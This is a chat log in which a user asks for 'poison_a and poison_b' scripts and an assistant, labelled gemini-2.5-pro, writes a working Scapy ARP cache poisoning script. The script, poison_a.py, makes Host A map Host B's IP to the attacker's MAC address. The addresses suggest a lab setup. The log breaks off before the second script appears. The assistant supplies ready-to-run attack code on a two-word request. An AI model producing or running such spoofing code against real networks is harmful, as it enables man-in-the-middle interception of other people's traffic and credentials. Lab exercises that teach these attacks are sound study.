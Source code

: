 
---

### User

write poison_a and poison_b scritps


---

### Assistant (gemini-2.5-pro)

Okay, here are the two Python scripts using Scapy. Save these on Host M.

---

**`poison_a.py` (Poisons Host A's cache)**

This script sends an ARP reply to Host A (`10.9.0.5`), telling it that Host B's IP (`10.9.0.6`) is at Host M's MAC address (`02:42:0a:09:00:69`).

```python
#!/usr/bin/env python3

from scapy.all import Ether, ARP, sendp
import time

# Define the IP and MAC addresses based on your settings.txt
IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_M = "02:42:0a:09:00:69" # Attacker's MAC

print(f"--- Poisoning Host A ({IP_A}) ---")
print(f"Sending ARP Reply: {IP_B} is at {MAC_M}")

# Construct the Ethernet frame
# Source MAC is the attacker's MAC (MAC_M)
# Destination MAC is Host A's MAC (MAC_A)
ether = Ether(src=MAC_M, dst=MAC_A)

# Construct the ARP packet
# op=2 signifies an ARP Reply
# hwsrc = Sender MAC -> Attacker's MAC (MAC_M)
# psrc  = Sender IP  -> IP we want A to associate with MAC_M (IP_B)
# hwdst = Target MAC -> Victim's MAC (MAC_A)
# pdst  = Target IP  -> Victim's IP (IP_A)
arp = ARP(op=2, hwsrc=MAC_M, psrc=IP_B, hwdst=MAC_A, pdst=IP_A)

# Combine Ethernet and ARP layers
packet = ether/arp

# Send the packet at Layer 2
sendp(packet, iface="eth0", verbose=False)

print("Poisoning packet sent to Host A.")
print("------------------------------------")

```

---